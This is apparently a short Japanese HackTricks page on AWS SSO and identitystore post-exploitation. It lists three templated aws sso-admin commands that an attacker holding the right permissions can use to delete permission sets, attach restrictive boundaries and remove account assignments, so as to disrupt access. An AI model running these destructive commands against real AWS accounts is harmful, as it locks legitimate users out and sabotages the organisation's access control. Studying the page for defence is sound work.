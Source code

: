 # AWS - SSO & identitystore ポストエクスプロイテーション

{{#include ../../../banners/hacktricks-training.md}}

## SSO & identitystore

詳細については、以下を確認してください:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### `sso:DeletePermissionSet` | `sso:PutPermissionsBoundaryToPermissionSet` | `sso:DeleteAccountAssignment`

これらの権限は、権限を妨害するために使用できます:
```bash
aws sso-admin delete-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>

aws sso-admin put-permissions-boundary-to-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --permissions-boundary-policy-arn <PolicyARN>

aws sso-admin delete-account-assignment --instance-arn <SSOInstanceARN> --target-id <TargetID> --target-type <TargetType> --permission-set-arn <PermissionSetARN> --principal-type <PrincipalType> --principal-id <PrincipalID>
```
{{#include ../../../banners/hacktricks-training.md}}

